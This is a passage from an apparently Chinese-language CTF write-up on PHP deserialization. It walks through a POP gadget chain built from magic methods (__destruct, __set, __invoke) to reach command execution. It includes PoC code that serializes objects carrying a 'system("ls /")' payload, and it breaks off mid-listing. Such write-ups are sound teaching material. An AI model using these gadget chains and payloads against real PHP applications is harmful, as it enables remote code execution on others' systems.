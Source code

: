 ```php
$b = new PersonB(); $b->name = 'system("ls /");';
$prop->setValue($obj, $b);

$payload = serialize($obj);
unserialize($payload); // 调试__wakeup()
echo urlencode($payload);
```

---

## [PHP 反序列化] 19 第十九章 星穹真相·补天归源

认真审一下题，这个代码使用了很多重复的变量名，容易搞混。

给了我们基类 `Person`，定义了 `name`, `id`, `age`三个属性。

作为函数触发时，接受一个参数 `x`，将自己参数的 `id` 当作一个对象，修改它的 `name` 为 `x`，修改它的 `age` 为本对象的 `name` 属性值。

`PersonA` 在被销毁时，执行 `$name->$id($age);`

`PersonB` 当你动态地设置它的属性时，无论修改什么属性都会变成修改它的 `name` 为对应值。

`PersonC` 被反序列化时将自己的 `id` 认作一个对象，修改它的 `age` 等于自己的 `age` ，然后将它当作函数执行，传入自己作为实参。他还有一个 `__Check` 方法，接受参数 `y` ，然后对自身属性 `age` 和 `name` 进行关键词 `flag` 的检测，然后执行`$name($y);`

然后我们就明了了，最后肯定是要调用`__Check` （毕竟它写了一个关键词过滤求我们打。反推回去，调用一个方法我们得用到 `PersonA` ，其实就这样就行了，其他都是干扰。

PoC 如下：

```php
<?php
class Person
{
    public $name;
    public $id;
    public $age;

    public function __invoke($id)
    {
        $name = $this->id;
        $name->name = $id;
        $name->age = $this->name;
    }
}

class PersonA extends Person
{
    public function __destruct()
    {
        $name = $this->name;
        $id = $this->id;
        $age = $this->age;
        $name->$id($age);
    }
}

class PersonB extends Person
{
    public function __set($key, $value)
    {
        $this->name = $value;
    }
}

class PersonC extends Person
{
    public function __Check($age)
```